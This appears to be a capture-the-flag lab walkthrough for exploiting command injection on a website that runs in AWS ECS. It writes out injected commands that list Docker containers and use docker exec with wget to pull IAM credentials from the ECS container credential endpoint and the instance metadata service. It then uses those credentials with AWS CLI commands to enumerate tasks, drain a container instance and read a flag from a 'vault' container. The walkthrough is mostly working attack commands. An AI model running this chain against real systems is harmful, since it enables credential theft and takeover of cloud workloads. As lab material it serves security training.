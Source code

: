 1. Find the command injection vulnerability in the website.

    ```bash
    ; echo 'hello world'
    ```

3. Using command injection list the container on the host and get the ID for the privd container.

   `; docker ps --format '{{.Names}} -- '`

   The privd docker ID will be the first field in the output from the following command.

   `; docker ps | grep privd`

4. Using command injection get the container credentials from the privd container as well as the host ECS instance.

   `; docker exec <container id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'`
   
   `; docker exec <container id> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/<ecs-agent>'`

5. With the privd credentials list the clusters in the account then enumerate the tasks.

   ```
   aws ecs list-clusters --profile privd
   tasks=$(aws ecs list-tasks --cluster my-cluster --profile ecs --query taskArns --out text)
   aws ecs describe-tasks --cluster my-cluster --profile ecs --tasks $tasks --query 'tasks[].[taskDefinitionArn, taskArn, containerInstanceArn]' --out text
   ```

6. Set the container instance that is running the vault container to DRANING

    `aws ecs update-container-instances-state --cluster my-cluster --container-instances <> --status DRAINING`

9. Wait for "Vault" container to be rescheduled, this can be checked by running docker via command injection.

    `; docker ps | grep vault`

10. Using the command injection on the website get the flag from the "vault" container.

    ```
    ; docker exec 8e9be4ebf17b ls
    ; docker exec 8e9be4ebf17b cat FLAG.TXT
    ```
